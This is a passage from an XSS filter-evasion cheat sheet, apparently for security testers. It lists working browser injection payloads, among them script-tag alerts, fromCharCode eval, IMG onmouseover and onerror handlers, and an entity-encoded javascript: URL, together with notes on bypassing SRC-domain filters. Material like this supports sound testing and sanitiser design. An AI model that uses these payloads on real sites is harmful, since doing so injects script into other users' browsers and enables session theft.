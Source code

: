 `<IMG """>`

<SCRIPT>

alert("XSS")

</SCRIPT>

"\>

## fromCharCode

If no quotes of any kind are allowed you can eval() a fromCharCode in
JavaScript to create any XSS vector you need:

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

## Default SRC tag to get past filters that check SRC domain

This will bypass most SRC domain filters. Inserting javascript in an
event method will also apply to any HTML tag type injection that uses
elements like Form, Iframe, Input, Embed etc. It will also allow any
relevant event for the tag type to be substituted like onblur, onclick
giving you an extensive amount of variations for many injections listed
here. Submitted by David Cross .

Edited by Abdullah Hussam(@Abdulahhusam).

<IMG SRC=# onmouseover="alert('xxs')">

## Default SRC tag by leaving it empty

<IMG SRC= onmouseover="alert('xxs')">

## Default SRC tag by leaving it out entirely

<IMG onmouseover="alert('xxs')">

## On error alert

<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

## IMG onerror and javascript alert encode

<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

## Decimal HTML character references
